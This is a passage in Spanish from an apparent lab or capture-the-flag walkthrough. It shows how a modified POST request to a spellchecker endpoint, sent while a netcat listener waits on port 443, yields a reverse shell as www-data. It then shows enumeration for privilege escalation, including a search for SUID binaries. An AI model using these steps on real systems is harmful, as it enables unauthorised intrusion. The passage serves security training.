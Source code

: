 - Le damos click secundario a la petición que se realiza y seleccionamos la opción **Editar y reenviar**. El método lo debemos cambiar de **GET** a **POST** en el el **Cuerpo de la petición** agregamos `{"id":"c0","method":"checkWords","params":["en",[""]]}` y antes de envíar la petición, nos ponemos en escucha por el puerto 443 y la enviamos.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.0.0.25] from (UNKNOWN) [10.0.0.24] 38871
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya nos encontramos dentro del sistema y para trabajar más cómodos, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Ahora vamos a enumerar un poco el sistema para encontrar una forma de escalar privilegios, debido a que somos el usuario **www-data**:

```bash
www-data@ubuntu:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www/html$ sudo -l 
[sudo] password for www-data: 
www-data@ubuntu:/var/www/html$ cd /
www-data@ubuntu:/$ find \-perm -4000 2>/dev/null
./bin/umount
./bin/ping6
./bin/ping
./bin/su
./bin/mount
./bin/fusermount
./usr/bin/chfn
./usr/bin/sudo
./usr/bin/chsh
./usr/bin/gpasswd
./usr/bin/newgrp
./usr/bin/mtr
./usr/bin/passwd
./usr/bin/traceroute6.iputils
./usr/lib/openssh/ssh-keysign
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/pt_chown
./usr/sbin/pppd
./usr/sbin/uuidd
www-data@ubuntu:/$ cd /var/www/html/
www-data@ubuntu:/var/www/html$ ls -l
total 264
drwxr-xr-x  3 www-data www-data   4096 Apr 25  2018 006-final
drwxr-xr-x  2 www-data www-data   4096 Apr 25  2018 dir007key
drwxr-xr-x 41 www-data www-data   4096 Apr 25  2018 gnocertdir
-rwxr--r--  1 www-data www-data    354 Apr 24  2018 index.css
-rw-r--r--  1 www-data www-data    252 Apr 25  2018 index.html
-rw-r--r--  1 www-data www-data  39748 Apr 24  2018 logo.png
-rw-r--r--  1 www-data www-data      4 Apr 25  2018 rtm.log
drwxr-xr-x  2 www-data www-data   4096 Apr 24  2018 sev-home
-rw-r--r--  1 www-data www-data 184883 Apr 25  2018 sniper.png
-rw-r--r--  1 www-data www-data   2301 Apr 29  2018 space.gif
-rw-r--r--  1 www-data www-data   1414 Apr 29  2018 splashAdmin.php
-rw-r--r--  1 www-data www-data   1349 Apr 24  2018 terminal.js
www-data@ubuntu:/var/www/html$
```
